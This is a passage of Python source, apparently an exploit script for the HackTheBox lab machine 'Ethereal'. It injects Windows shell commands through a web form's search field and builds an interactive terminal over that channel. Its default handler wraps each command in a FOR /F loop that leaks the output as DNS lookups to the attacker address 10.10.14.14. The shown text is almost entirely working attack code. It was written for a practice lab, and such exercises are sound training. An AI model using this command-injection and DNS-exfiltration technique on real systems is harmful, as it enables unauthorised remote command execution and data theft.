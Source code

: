      50         self.do_login()
     51         self.fail_count = 0
     52 
     53 
     54     def do_login(self, args=''):
     55         print("[*] Logging in and fetching state information.")
     56         resp = requests.get('http://ethereal.htb:8080/', auth=self.auth, proxies=self.proxy)
     57         soup = BeautifulSoup(resp.text, 'html.parser')
     58         self.view_state = soup.find("input", id="__VIEWSTATE").get('value')
     59         self.view_state_gen = soup.find("input", id="__VIEWSTATEGENERATOR").get('value')
     60         self.event_val = soup.find("input", id="__EVENTVALIDATION").get('value')
     61         print("[+] State information received.")
     62 
     63 
     64     def send_post(self, search):
     65         data = {'__VIEWSTATE': self.view_state,
     66                 '__VIEWSTATEGENERATOR': self.view_state_gen,
     67                 '__EVENTVALIDATION': self.event_val,
     68                 'search': search,
     69                 'ctl02': ''}
     70         try:
     71             start = time.time()
     72             resp = requests.post('http://ethereal.htb:8080/',
     73                              proxies=self.proxy,
     74                              data = data,
     75                              auth = self.auth,
     76                              timeout=120)
     77             if resp.status_code == 500 and time.time() - start < 30:
     78                 print("[-] Unable to connect to Ethereal\n[*] Running login")
     79                 self.do_login()
     80                 print("[*] Try running the command again.")
     81         except requests.exceptions.Timeout:
     82             pass
     83 
     84 
     85     def do_exit(self, args=''):
     86         print("[*] Sending kill request.")
     87         self.send_post(f'& nslookup {kill_domain} 10.10.14.14')
     88         sys.exit()
     89 
     90 
     91     def default(self, args):
     92         command = f'''& (FOR /F "tokens=1-26" %a IN ('{args}') DO ( nslookup "Q%aX.Q%bX.Q%cX.Q%dX.Q%eX.Q%fX.Q%gX.Q%hX.Q%iX.Q%jX.Q%kX.Q%lX.Q%mX.Q%nX.Q%oX.Q%pX.Q%qX.Q%rX.Q%sX.Q%tX.Q%uX.Q%vX.Q%wX.Q%xX.Q%yX.Q%zX" 10.10.14.14 ))'''
     93         self.send_post(command)
     94 
     95 
     96     def do_quiet(self, args):
     97         command = f'& ( {args} )'
     98         self.send_post(command)
     99 
    100 
    101 #dns = dns_sniff(interface='eth0', target_ip='10.1.1.153')
    102 dns = dns_sniff()
    103 dns.start()
    104 
    105 term = Terminal(proxy={"http": "http://127.0.0.1:8080"})
    106 try:
    107     term.cmdloop()
    108 except KeyboardInterrupt:
    109     term.do_exit()
    